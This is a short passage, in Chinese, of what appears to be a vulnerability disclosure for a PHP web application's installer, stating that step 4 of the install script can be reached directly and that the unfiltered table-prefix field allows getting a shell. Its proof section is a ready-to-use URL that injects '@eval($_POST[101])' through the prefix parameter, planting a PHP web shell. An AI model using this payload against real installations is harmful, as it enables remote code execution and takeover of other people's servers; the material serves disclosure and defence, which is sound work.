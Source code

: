 所以直接进行 setp = 4 的步骤，其中只有 DB_PREFIX 字段不影响，可以用来 getshell。

## 漏洞证明

直接访问 URL：

**.**.**.**/install/index.php?host=localhost&user=root&password=root&dbname=hello&prefix=f_');@eval($_POST[101]);('&url_type=1&step=4

![](img/191726299ba9a35353fda67f823e1845cdc8dfa0.png)

![](img/19172636a069e7e99449572a464daef0f5c0d08b.png)
